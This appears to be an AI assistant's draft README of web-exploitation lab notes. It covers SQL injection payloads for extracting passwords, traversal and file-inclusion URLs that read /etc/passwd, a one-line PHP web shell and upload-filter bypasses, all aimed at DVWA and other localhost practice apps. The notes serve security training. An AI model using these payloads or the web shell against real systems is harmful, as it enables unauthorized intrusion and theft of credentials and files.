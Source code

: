 Here's a structured and detailed README.md file for this web exploitation project. I've broken down each concept into sections, provided clear headings, and used formatting to make it both informative and visually engaging.

---

````markdown
# Web Exploitation Techniques

This repository contains a collection of web exploitation techniques focused on SQL Injection, Directory Traversal, Local File Inclusion, and File Upload Vulnerabilities. The examples and commands provided here can be used for ethical hacking and testing of web application vulnerabilities in controlled environments.

## Table of Contents

1. [Broken Access Control](#broken-access-control)
2. [SQL Injection (SQLi) Examples](#sql-injection-sqli-examples)
3. [Directory Traversal](#directory-traversal)
4. [File Inclusion](#file-inclusion)
5. [File Upload Vulnerabilities](#file-upload-vulnerabilities)

---

## 1. Broken Access Control

### Docker Command

To list running Docker containers:

```bash
sudo docker container ps
```
````

### SQL Injection in Broken Access Control

Performing SQL injection on the DVWA platform to test access control vulnerabilities.

#### Basic Payload

```sql
GET /vulnerabilities/sqli/?id=' OR 1=1 #
```

- **Convert special characters to URL encode** for proper injection.
- Use the `Ctrl+U` shortcut to view the source code for insights.

#### DVWA SQL Injection Examples

- **Low Security Level**:
  ```sql
  Payload: ' OR 1=1 #
  Password Extraction: ' UNION SELECT user, password FROM users #
  ```
- **Medium Security Level**:
  ```sql
  Payload: 1 OR 1=1 #
  Password Extraction: 1 UNION SELECT user, password FROM users #
  ```

#### SecureBank SQL Injection Examples

- **Union-based SQLi for Table Enumeration**:
  ```sql
  ' UNION SELECT * FROM Transactions --
  ```
- **Retrieving Specific Information**:
  ```sql
  ' UNION SELECT 10, 'string', 'string', '02/24/2024', 'string', 1, 'string' FROM Transactions --
  ' UNION SELECT 10, 'string', 'string', '02/24/2024', 'string', 1, @@version FROM Transactions --
  ```

---

## 2. Directory Traversal

### Extracting Files via Directory Traversal

```bash
tar -xvf apache-tomcat-8.5.99.tar.gz
./catalina.sh run
```

Use `wfuzz` to test file paths:

```bash
python3 -m venv venv
. venv/bin/activate
wfuzz -w wordlist http://localhost:1337/dynamic-app1/?FUZZ=test
```

**Example**: Accessing a hidden file:

```url
http://localhost:1337/dynamic-app1/?file=../../../secret.txt
```

### Code Explanation (Directory Traversal Vulnerability)

1. **Retrieve File Parameter**:
   ```java
   String file = request.getParameter("file");
   ```
2. **File Null Check**:
   ```java
   if (file == null) { /* Execute fallback code */ }
   ```
3. **Construct Full File Path**:
   ```java
   Path path = Paths.get(getServletContext().getRealPath("/") + "/" + file);
   ```
4. **Read File Contents**:
   ```java
   byte[] data = Files.readAllBytes(path);
   String s = new String(data, StandardCharsets.UTF_8);
   out.println(s);
   ```

---

## 3. File Inclusion

### Local File Inclusion (LFI)

Retrieve sensitive files using Local File Inclusion.

```url
http://localhost/vulnerabilities/fi/?page=../../../../../../../../../etc/passwd
```

### PHP Filters for LFI

1. Encode files in base64 to view sensitive data:

   ```url
   http://localhost/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
   ```

   Decode the base64 string to get the `/etc/passwd` content.

---

## 4. File Upload Vulnerabilities

### Level 1 - Unrestricted File Upload

1. **Create a PHP shell script**:
   ```php
   <?php system($_REQUEST['cmd']); ?>
   ```
2. **Execute commands via URL**:
   ```url
   http://localhost:7070/uploads/level1-thumbnail.php?cmd=whoami
   ```

### Level 2 - File Extension Check Bypass

1. Intercept the upload request using a tool like Burp Suite.
2. Change `Content-Type` from `application/x-php` to `image/png`.
3. **Execute Commands**:
   ```url
   http://localhost:7070/uploads/level2-thumbnail.php?cmd=whoami
   ```

### Level 3 - Image File Check Bypass

1. **Modify Image File Header**:
   Use a PHP payload in the first part of an image file to bypass checks.
2. **Execute Commands**:
   ```php
   <?php system($_REQUEST['cmd']); ?>
   ```

---

### Important Notes

- Always validate and sanitize user inputs to prevent vulnerabilities.
- Use tools like **wfuzz** for fuzzing and **Burp Suite** for intercepting requests.
- **Convert special characters to URL encoding** where necessary.

### Disclaimer

These techniques are for educational purposes and should only be used in authorized environments. Unauthorized access or testing without permission is illegal.

---

### References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [OWASP File Inclusion](https://owasp.org/www-community/attacks/Path_Traversal)

```

This README should help with clarity, easy navigation, and adherence to ethical usage of these techniques. Let me know if there are any additional sections or if you'd like further elaboration on specific parts!
```
